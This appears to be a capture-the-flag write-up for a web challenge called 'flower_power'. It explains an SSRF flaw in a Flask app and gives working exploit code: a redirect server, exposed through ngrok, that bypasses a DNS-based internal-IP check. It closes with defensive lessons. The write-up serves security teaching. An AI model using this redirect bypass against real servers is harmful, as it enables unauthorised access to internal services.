 # 🏵️ flower_power

## 📦 Challenge Setup

Generate a dummy `flag.png`:

```bash
docker build -t flower_power .
docker run -p 8080:80 flower_power
```

---

## 🧾 Description
Find Special flower!

---

## 🧠 Background Knowledge

### 🔒 Internal IP Filtering

The server only serves `flag.png` to clients with **internal IP addresses**:

- `127.0.0.0/8`
- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`

External requests return `"Unauthorized access"`.

---

### 🌐 SSRF (Server-Side Request Forgery)

If the server makes a request **on behalf of the user**, it uses its **own IP**, which is considered internal.

We can abuse this behavior to bypass IP restrictions:

```
[You] --> [filter_flower input] --> [Server] --(SSRF)--> /special_flower
```

---

## 🔍 Vulnerability Analysis

### Target: `/special_flower`

```python
@app.get("/special_flower")
def special_flower():
    if not request.remote_addr:
        return "Unauthorized access"
    r_ip = ipaddress.ip_address(request.remote_addr)
    if r_ip in internal_ranges:
        return send_file("flag.png", mimetype='image/png')
    return "Unauthorized access"
```

Accessible **only from internal IPs**.

---

### Entry Point: `/filter_flower` (SSRF Injection)

```python
@app.post('/filter_flower')
def filter_flower():
    flower_url = request.form['flower_url']
    
    # Parse domain and resolve DNS
    ip = resolve(domain)
    
    # Block internal IPs
    if ip in internal_range:
        return "Definitely not a flower!"
    
    # SSRF vulnerability here:
    r = requests.get(flower_url)
```

💥 If we control `flower_url`, we can trigger a **server-side request** to `http://127.0.0.1/special_flower`.

❗ BUT: there's a DNS-based IP check, so we can't just use "localhost" or "127.0.0.1".

---

## 🧨 Exploitation Strategy

### Problem

Direct SSRF to `127.0.0.1` or `localhost` fails due to DNS resolution and IP filtering.

### Solution

Use **open redirect** hosted on your own server that **points to internal address**, and bypass IP filtering using the **server's request chain**.

---

## 🧪 Exploit Code (Redirect Server)

```python
# redirect_server.py
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/redirect')
def redir():
    return redirect("http://192.168.64.10:8080/special_flower", code=302)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8081)
```

### 1. Start redirect server

```bash
python redirect_server.py
```

### 2. Expose to the internet using ngrok

```bash
ngrok http 8081
```

You’ll get a public URL like:

```
https://abcdef1234.ngrok.io/redirect
```

---

## 🚀 Final Exploit

### Steps:

1. Go to `http://target/filter_flower`
2. Input your **ngrok URL** in the flower URL field:
   ```
   https://abcdef1234.ngrok.io/redirect
   ```
3. Server will:
   - Fetch `https://abcdef1234.ngrok.io/redirect`
   - Follow redirect to internal address
   - Bypass IP filtering
4. Result: **You get the flag!**

---

## 🎯 Takeaways

- ✅ SSRF → Internal resource access
- ✅ `requests.get()` follows **302 redirects by default**
- ✅ Use external redirection to **bypass internal IP filtering**
- ⚠️ `0.0.0.0` is often not resolvable in DNS → use internal IP directly in redirection

---

## 🧠 Lessons Learned

- Don’t trust external URLs even if DNS is resolved and filtered
- SSRF redirection chains can bypass naive filters
- Defense should verify final hop IP, not just the DNS of the input
